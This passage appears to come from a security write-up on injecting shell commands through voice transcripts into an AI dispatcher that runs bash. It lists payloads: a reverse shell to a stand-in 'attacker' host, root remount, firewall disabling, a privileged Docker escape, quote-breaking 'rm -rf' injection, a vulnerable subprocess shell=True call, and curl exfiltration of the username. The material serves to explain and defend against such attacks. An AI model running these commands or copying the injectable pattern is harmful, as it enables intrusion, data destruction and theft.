 ````markdown
| 2  | “Give me root shell”                                       | `bash -i >& /dev/tcp/attacker/4444 0>&1`                         | `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`         | <ul><li>`socket(AF_INET, SOCK_STREAM, 0)`<br><li>`connect()` → reverse shell</ul> |
| 3  | “Mount root read-write”                                    | `mount -o remount,rw /`                                         | `bash -c "mount -o remount,rw /"`                         | <ul><li>`execve("/usr/bin/mount", ["mount","-o","remount,rw","/"],…)` → `mount(2)` syscall</ul> |
| 4  | “Disable the firewall”                                     | `systemctl stop firewalld && systemctl disable firewalld`      | `bash -c "systemctl stop firewalld && systemctl disable firewalld"` | <ul><li>`execve` → stops zone/iptables rules via D-Bus → kernel netfilter unload</ul> |
| 5  | “Escape pod to host shell”                                 | `echo 'docker run --privileged -v /:/mnt/host rootfs sh -c "chroot /mnt/host /bin/bash"' | `bash -c "echo 'docker run --privileged -v /:/mnt/host rootfs sh -c \"chroot /mnt/host /bin/bash\"' | bash"` | <ul><li>`execve("docker", …)` → container runtime → `clone()` new namespaces</ul> |

---

### 7.2 Breaking out of Quoted Contexts  

Voice-derived transcripts often land inside quotes. Attackers can close quotes and inject payloads.

```bash
# Innocent dispatcher command:
bash -c "echo Hello, world"

# Malicious transcript injection:
TRANSCRIPT='"; rm -rf /tmp/*; echo "'
bash -c "$TRANSCRIPT"
# Actual executed:
bash -c ""; rm -rf /tmp/*; echo ""
````

* **Syscalls:**

  * `fork()` + `execve("/bin/bash", ["bash","-c",""],…)` → injection
  * `unlink("/tmp/file")` via `rm -rf`

```bash
# Nested eval vulnerability in Python dispatcher:
subprocess.run(f"bash -c \"{command}\"", shell=True)
# If command = '$(touch /tmp/pwned)', then:
bash -c "$(touch /tmp/pwned)"
# touch syscall: open("/tmp/pwned", O_CREAT|O_WRONLY), write(), close()
```

---

### 7.3 Embedding in Benign Queries

Attackers can hide payloads in multi-clause queries.

| Sample Query                                                                               | Transcribed Payload                                           | Effect                            |
| ------------------------------------------------------------------------------------------ | ------------------------------------------------------------- | --------------------------------- |
| “What’s disk usage; rm -rf /var/log/\*”                                                    | `df -h; rm -rf /var/log/*`                                    | Reports space then deletes logs   |
| “Show me users; curl [http://attacker/\$(whoami).txt”](http://attacker/$%28whoami%29.txt”) | `cut -d: -f1 /etc/passwd; curl http://attacker/$(whoami).txt` | Exfiltrates username via HTTP GET |
| “Backup files then reboot”                                                                 | `tar czf /tmp/backup.tar.gz /etc && systemctl reboot`         | Creates tarball then reboots      |
